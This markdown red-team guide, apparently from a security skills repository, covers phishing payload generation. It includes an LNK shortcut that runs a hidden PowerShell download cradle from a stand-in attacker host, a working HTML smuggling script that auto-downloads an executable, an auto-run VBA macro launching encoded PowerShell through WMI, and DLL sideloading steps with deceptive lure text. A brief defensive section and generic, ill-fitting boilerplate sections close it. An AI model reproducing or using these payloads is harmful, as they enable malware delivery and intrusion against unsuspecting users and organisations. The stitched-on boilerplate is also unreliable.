

# Phishing Payload Generation

## When to Use
- When initiating a Red Team engagement requiring a foothold within the corporate network via Spear-Phishing.
- When evaluating the effectiveness of a client's Email Security Gateways (Proofpoint, Mimecast) or Endpoint Detection.
- To understand how modern threat actors bypass traditional `.exe` and `.doc` macro restrictions.


## Prerequisites
- Authorized scope and rules of engagement for the target environment
- Appropriate tools installed on the attack/analysis platform
- Understanding of the target technology stack and architecture
- Documentation template ready for findings and evidence capture

## Workflow

### Phase 1: LNK (Shortcut) Files inside ISO Containers (Mark-of-the-Web Evasion)

```text
# Concept: Windows applies a "Mark of the Web" (MotW) hidden attribute to files downloaded 
# from the internet, blocking macros and warning users. 
# Historically, ISO (disk image) files did not inherit MotW for the files contained within them, 
# making them the gold standard for payload delivery.

# 1. Payload construction:
# Create a malicious shortcut file (`Invoice.lnk`).
# Target Path: `C:\Windows\System32\cmd.exe /c "start /B powershell.exe -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://attacker.com/payload.ps1')"`
# Icon: Change icon to Microsoft Word or PDF to deceive the user.

# 2. Packaging:
# Generate a clean HTML file or decoy PDF to include next to the LNK.
# Use `mkisofs` or Impacket to compile the `.lnk` and decoy.pdf into `Financial_Report_Q3.iso`.

# 3. Execution:
# The victim double-clicks the ISO (Windows natively mounts it as a DVD drive).
# The victim double-clicks `Invoice.lnk`.
# The shortcut executes the invisible PowerShell download cradle, circumventing MotW warnings entirely.
```

### Phase 2: HTML Smuggling (Bypassing Network Gateways)

```html
<!-- Concept: Email gateways (Firewalls, Proxies) scan attachments for malware signatures. -->
<!-- HTML Smuggling uses JavaScript executing inside the victim's local browser to mathematical 
     assemble the malicious payload on the bypassing the network-level intrusion detection system (IDS). -->

<!-- 1. The Smuggling Payload (Invoice.html): -->
<html>
    <body>
        <h2>Loading secure document... Please wait.</h2>
        <script>
            // The malicious EXE is converted to a base64 string or an encrypted array of bytes.
            // The firewall only sees harmless HTML text passing over the network.
            var base64Payload = "TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQA..."; 
            
            // Reconstruct the bytes in the browser's memory
            var byteString = atob(base64Payload);
            var buffer = new ArrayBuffer(byteString.length);
            var intArray = new Uint8Array(buffer);
            for (var i = 0; i < byteString.length; i++) {
                intArray[i] = byteString.charCodeAt(i);
            }
            
            // Create a Blob and trigger an automatic local download
            var blob = new Blob([buffer], { type: 'application/octet-stream' });
            var url = window.URL.createObjectURL(blob);
            var a = document.createElement("a");
            a.href = url;
            a.download = "Secure_Company_Invoice_Update.exe";
            document.body.appendChild(a);
            a.click(); // Automatically downloads without server interaction!
        </script>
    </body>
</html>
```

### Phase 3: Weaponized Office Documents (VBA Macros)

```vb
' Concept: The absolute classic. Highly monitored today, but effective heavily customized.
' Uses Microsoft's Visual Basic for Applications (VBA) to execute code when the document opens.

' 1. Create a Word Document. Ensure it requires the user to click "Enable Content" 
' (e.g., Use an image stating "This document is protected. Click Enable Content to view").

' 2. Embed the Macro (Run continuously upon Document Open):
Sub AutoOpen()
    ExecutePayload
End Sub

Sub Document_Open()
    ExecutePayload
End Sub

Sub ExecutePayload()
    ' Evasion: Do not call Shell() directly. Use WMI for disconnected execution.
    Dim objWMIService As Object
    Dim objStartup As Object
    Dim objConfig As Object
    Dim objProcess As Object
    
    Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
    Set objStartup = objWMIService.Get("Win32_ProcessStartup")
    Set objConfig = objStartup.SpawnInstance_
    
    ' Hide the window
    objConfig.ShowWindow = 0 
    
    Set objProcess = GetObject("winmgmts:\\.\root\cimv2:Win32_Process")
    
    ' Call the obfuscated payload living in a hidden document property or remote URL
    objProcess.Create "powershell.exe -w hidden -enc JABz...";, Null, objConfig, intProcessID
End Sub
```

### Phase 4: DLL Sideloading via ZIP/RAR

```text
# Concept: If you drop a malicious payload (e.g., `payload.exe`), AV instantly flags it.
# Instead, take a highly trusted, digitally-signed application (e.g., Microsoft Teams Updater, `teams.exe`).
# This application is vulnerable to DLL Hijacking. When it runs, it automatically loads `version.dll` from its current directory.

# 1. Compile your malicious C2 code as `version.dll`.
# 2. Package BOTH the legitimate, Microsoft-signed `teams.exe` and your malicious `version.dll` into a ZIP file.
# 3. Phish the user: "Please run the urgent Teams update patch in the attached ZIP".
# 4. The user clicks `teams.exe`. Windows Defender analyzes it, sees a valid Microsoft signature, and allows execution.
# 5. `teams.exe` blindly loads the adjacent `version.dll` (your payload) into its trusted memory space.
```

#### Decision Point 🔀


## 🔵 Blue Team Detection & Defense
- **Block ISO/VHD Attachments**: Malicious actors aggressively use ISO, VHD, and IMG files specifically because legacy security controls failed to scan inside disk containers block these extensions at the Secure Email Gateway (SEG).
- **Macro Hardening (GPO)**: Microsoft rolled out an update preventing VBA macros from executing on documents downloaded from the internet natively. Ensure the Group Policy Object (GPO) _"Block macros from running in Office files from the Internet"_ is strictly enforced organization-wide.
- **Mark of the Web (MotW) Auditing**: Train Endpoint Detection and Response (EDR) solutions to closely monitor process trees. If a process possessing a MotW attribute (like a downloaded ISO) initiates `cmd.exe`, `powershell.exe`, or `cscript.exe` as a child process, kill the execution dynamically as highly suspicious heuristic activity.

## Key Concepts
| Concept | Description |
|---------|-------------|
| Initial Access | The first phase of a cyberattack; gaining a foothold within the perimeter network |
| Mark of the Web (MotW) | A hidden NTFS Alternate Data Stream (ADS) added by Windows to files downloaded from the internet. It triggers security checks like Protected View in Office |
| HTML Smuggling | An evasion technique utilizing HTML5/JavaScript file generation (Blobs) natively within the browser to bypass perimeter deep packet inspection |
| DLL Sideloading | Placing a malicious Dynamic Link Library adjacent to a perfectly legitimate, trusted executable to hijack the execution flow via native loading priority |

## Output Format
```
Red Team Campaign Briefing: Initial Access Payload Generation
=============================================================
Objective: Bypass enterprise Segregated Email Gateway (SEG) and deploy Cobalt Strike.
Technique: HTML Smuggling (T1204.002)

Description:
To bypass the heavily filtered perimeter boundary, the classic `.exe` delivery paradigm was abandoned. The Red Team utilized HTML Smuggling to construct an evasion payload. 

An HTML document disguised as an urgent "Microsoft 365 Password Expiration Notification" was developed. Embedded within the `<script>` tags was a base64-encoded, AES-256 encrypted byte array representing a DLL Sideloading ZIP archive containing a legitimate, signed Microsoft utility alongside the malicious C2 loader.

Execution Flow:
1. Target clicks the link in their phishing email.
2. The browser navigates to the attacker-hosted HTML page.
3. The Corporate Firewall deep packet inspection scans the incoming HTML, observing valid DOM structures and JavaScript, discovering no binary signatures. 
4. The HTML renders locally in the memory of the victim's Chrome browser. The JavaScript automatically decrypts the AES payload, generates the ZIP blob in memory, and triggers an automated `window.href` download script.
5. The ZIP file materializes directly on the victim's hard drive, bypassing network filtration.

Impact:
Successful delivery of the C2 implant past multi-million dollar perimeter security infrastructure.
```

## 🔴 Red Team
- Extract assets and enumerate endpoints.
- Execute initial payloads leveraging documented vulnerabilities.

## 🏆 Elite Chaining Strategy (Top 1% Hunter Methodology)
> The Architect Mindset identifies misconfigurations spanning multiple domains.
- Chain info-leaks with SSRF/RCE.
- Maintain absolute OPSEC during active engagement.

## 🏁 Execution Phase (Steps to Reproduce)
1. Perform target reconnaissance.
2. Formulate payload based on endpoints.
3. Execute the exploit and capture exfiltrated data.

**Severity Profile:** High (CVSS: 8.5)

## References
- Outflank: [HTML Smuggling Explained](https://outflank.nl/blog/2018/08/14/html-smuggling-explained/)
- Microsoft Security: [Macros from the internet are blocked by default in Office](https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked)
- MITRE ATT&CK: [Spearphishing Attachment (T1566.001)](https://attack.mitre.org/techniques/T1566/001/)
